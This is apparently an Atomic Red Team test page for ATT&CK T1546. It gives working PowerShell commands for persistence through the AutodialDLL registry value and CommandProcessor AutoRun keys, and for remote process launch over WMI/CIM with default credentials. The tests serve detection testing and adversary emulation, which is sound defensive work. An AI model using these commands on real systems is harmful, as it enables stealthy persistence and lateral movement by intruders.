 ```yaml
---
tags: [T1546, atomic_test]
filename: "[[T1546 - Event Triggered Execution]]"
---
```

# T1546 - Event Triggered Execution

## Atomic Test #1 - Persistence with Custom AutodialDLL
The DLL pointed to by the AutodialDLL registry key is loaded every time a process connects to the internet. Attackers can gain persistent code execution by setting this key to a DLL of their choice. 

The sample dll provided, AltWinSock2DLL, will launch the notepad process. Starting and stopping a web browser such as MS Edge or Chrome should result in the dll executing.
[Blog](https://www.mdsec.co.uk/2022/10/autodialdlling-your-way/)

**Supported Platforms:** Windows


**auto_generated_guid:** aca9ae16-7425-4b6d-8c30-cad306fdbd5b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value  $env:windir\system32\rasadhlp.dll
```



#### Dependencies:  Run with `powershell`!
##### Description: AltWinSock2DLL DLL must exist on disk at specified at PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1546\bin\" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546/bin/AltWinSock2DLL.dll" -OutFile "PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll"
```




<br/>
<br/>

## Atomic Test #2 - HKLM - Persistence using CommandProcessor AutoRun key (With Elevation)
An adversary may abuse the CommandProcessor AutoRun registry key to persist. Every time cmd.exe is executed, the command defined in the AutoRun key also gets executed.
[reference](https://devblogs.microsoft.com/oldnewthing/20071121-00/?p=24433)

**Supported Platforms:** Windows


**auto_generated_guid:** a574dafe-a903-4cce-9701-14040f4f3532





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to Execute | string | notepad.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path "HKLM:\Software\Microsoft\Command Processor" -Name "AutoRun" -Value "#{command}" -PropertyType "String"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Command Processor" -Name "AutoRun" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - HKCU - Persistence using CommandProcessor AutoRun key (Without Elevation)
An adversary may abuse the CommandProcessor AutoRun registry key to persist. Every time cmd.exe is executed, the command defined in the AutoRun key also gets executed.
[reference](https://devblogs.microsoft.com/oldnewthing/20071121-00/?p=24433)

**Supported Platforms:** Windows


**auto_generated_guid:** 36b8dbf9-59b1-4e9b-a3bb-36e80563ef01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to Execute | string | notepad.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
$path = "HKCU:\Software\Microsoft\Command Processor"
if (!(Test-Path -path $path)){
  New-Item -ItemType Key -Path $path
}
New-ItemProperty -Path $path -Name "AutoRun" -Value "#{command}" -PropertyType "String"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Command Processor" -Name "AutoRun" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - WMI Invoke-CimMethod Start Process
The following Atomic will create a New-CimSession on a remote endpoint and start a process usnig Invoke-CimMethod.
This is a novel way to perform lateral movement or to start a remote process.
This does require WinRM to be enabled. The account performing the run will also need to be elevated.
A successful execution will stdout that the process started. On the remote endpoint, wmiprvse.exe will spawn the given process.

**Supported Platforms:** Windows


**auto_generated_guid:** adae83d3-0df6-45e7-b2c3-575f91584577





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dest | destination computer name | string | localhost|
| password | password for account | string | P@ssword1|
| username | account to use | string | Administrator|
| process | process to spawn | string | calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Set the remote computer name and credentials
 $RemoteComputer = "#{dest}"
 $PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
 $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword

 # Create a CIM session
 $CimSession = New-CimSession -ComputerName $RemoteComputer -Credential $Credential

 # Define the process you want to start
 $ProcessToStart = "#{process}"

 # Invoke the Create method on the Win32_Process class to start the process
 $Result = Invoke-CimMethod -CimSession $CimSession -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $ProcessToStart}

 # Check the result
 if ($Result.ReturnValue -eq 0) {
     Write-Host "Process started successfully with Process ID: $($Result.ProcessId)"
 } else {
     Write-Host "Failed to start the process. Error code: $($Result.ReturnValue)"
 }

 # Clean up the CIM session
 Remove-CimSession -CimSession $CimSession
```






<br/>
